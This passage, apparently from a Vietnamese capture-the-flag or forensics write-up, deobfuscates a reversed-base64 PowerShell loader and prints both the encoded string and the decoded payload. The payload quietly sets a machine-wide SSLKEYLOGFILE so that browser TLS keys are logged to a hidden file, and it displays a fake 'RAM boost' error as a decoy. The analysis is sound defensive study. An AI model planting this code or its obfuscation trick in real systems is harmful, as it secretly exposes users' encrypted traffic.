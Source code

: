 ![1718866408536](image/writeup/1718866408536.png)
- Ta sửa lại code thành như này để in nội dung của đoạn base sau khi decode ra là gì:
```
$best64code = "iQWZ0N3bvJGIlJGIuF2Yg0WYyBybuBiLlV3czlGIsF2Yp5GajVGdgI3bmBSeyJ3bzJCIy9mcyVULlRXaydlCNoQDpcSZulGajFWTnACLlxWaGd2bMlXZLx2czRCIscSRMlkRH9ETZV0SMN1UngSZsJWYpJXYWRnbl1mbvJXa25WR0V2U6oTX05WZt52bylmduVkLtVGdzl3UbpQDK0QfK0QZslmRgUGc5RVblRXStASZslmRn9GT5V2SsN3ckACa0FGUtASblRXStcXZOBCIgAiCNsHIpkSZslmRn9GT5V2SsN3ckACa0FGUtQ3clRFKgQ3bu1CKgYWaK0gCNoQDic2bs5SeltGbzNHXr5WacBVVOdUSTxlclJ3bsBHeFBCdl5mclRnbJx1c05WZtV3YvREXjlGbiVHUcNnclNXVcpzQiASPgUGbpZ0ZvxUeltEbzNHJ" ;
$base64 = $best64code.ToCharArray() ; [array]::Reverse($base64) ; -join $base64 2>&1> $null ;
$LOADCode = [System.text.EnCOdING]::UTF8.getsTRiNg([sysTEm.coNvErT]::FromBASe64stRInG("$BaSe64")) ;
Write-Output $LOADCode
```
- Chạy file `.ps1` thì ta thu được code này :
```
$sslKeyLogFile = "C:\Users\Public\Documents\Internet Explorer\SIGNUP\ink\sslkey.log"


if (-not (Test-Path $sslKeyLogFile)) {
    New-Item -Path $sslKeyLogFile -ItemType File
}

[System.Environment]::SetEnvironmentVariable('SSLKEYLOGFILE', $sslKeyLogFile, 'Machine')

Write-Error "sorry for technical issue. no ram can be boosted"
```
- Giải thích đơn giản thì nó sẽ tạo 1 file `sslkey.log` ở đường đãn `C:\Users\Public\Documents\Internet Explorer\SIGNUP\ink` và cấp biến môi trường `SSLKEYLOGFILE` cho file đó theo đúng đường đẫn đó.
- Vậy là ta đã biết đường đẫn có file đó rồi , tuy nhiên vẫn có 1 cách khác đó là đọc log lịch sử của lệnh powershell.